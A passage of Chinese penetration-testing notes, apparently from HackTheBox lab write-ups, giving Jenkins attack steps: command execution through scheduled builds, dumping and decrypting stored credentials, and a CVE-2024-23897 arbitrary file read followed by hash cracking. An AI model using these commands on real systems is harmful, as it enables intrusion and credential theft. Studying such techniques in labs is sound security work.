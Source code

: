 在 kali 建立2233和443**两个**端口，建立本地 samba 服务，然后在 Find content 点击刚刚创建的 page ，拿到系统 shell


### Jetty (Jenkins)
- **敏感文件**
```
/var/jenkins_home/secrets/initialAdminPassword   (管理员默认密码存储文件)
```

- **执行系统命令**
New Item > Freestyle Project
创建后点击进入 Conigure , 在 Build Triggers 中选择 Build periodically
输入 `* * * * *` , 代表每分钟执行一次
在 Build 中选择 Execute Windows batch command 
例: `cmd.exe /c whoami`

- **Jenkins 2.317 破解凭据** **\> [0x19 object (Jenkins 解密访问凭据,Bloodhound)](../0x0B%20HackTheBox%20WP/靶机推荐第五组%2081-120暨内⽹和域渗透学习路径/0x19%20object%20(Jenkins 解密访问凭据,Bloodhound).md) <**
Jenkins 的凭据文件一般保存在 
```
C:\Users\<User>\AppData\Local\Jenkins\.jenkins\secrets
```
转储凭据需要用到
- credentials.xml （名字不一定相同，保存加密的凭据）
- hudson.util.Secret (用来解密 credentials.xml)
- master.key (解密 hudson.util.Secret)

修改命令为 `cmd.exe /c dir C:\Users\<User>\AppData\Local\Jenkins\.jenkins\secrets` 耐心枚举
如果 type 输入乱码可以尝试
```powershell
cmd.exe /c certutil -encode C:\Users\<User>\AppData\Local\Jenkins\.jenkins\secrets\master.key master_b64 & more .\master_b64
```
输出就是原文，不需要 base64 -d

xml 文件可能在别处，例 `C:\Users\<Users>\AppData\Local\Jenkins\.jenkins\users\admin_xxxxxxxxxxx\config.xml`

搜集到三个文件后使用 github 的 python 脚本解密即可
https://github.com/hoto/jenkins-credentials-decryptor
```
~/tool/jenkins-credentials-decryptor -m master.key -s hudson.util.Secret -c config.xml 
```

- **CVE-2024-23897 , Jenkins 2.441  任意文件读取** 
```bash
└─$ wget http://10.129.247.148:8080/jnlpJars/jenkins-cli.jar
java -jar jenkins-cli.jar -s 'http://10.129.247.148:8080' help '@/etc/passwd'

java -jar jenkins-cli.jar -s 'http://10.129.247.148:8080' reload-job '@/var/jenkins_home/users/users.xml'  
<string>jennifer_xxxxxx</string>: No such item ‘      <string>jennifer_xxxxxxx</string>’ exists.

java -jar jenkins-cli.jar -s 'http://10.129.247.148:8080' reload-job '@/var/jenkins_home/users/jennifer_xxxx/config.xml'
(最后一行可能会有password hash)
hashcat -m 3200 ./hash_raw /usr/share/wordlists/rockyou.txt

jennifer:password 登录jenkins
```
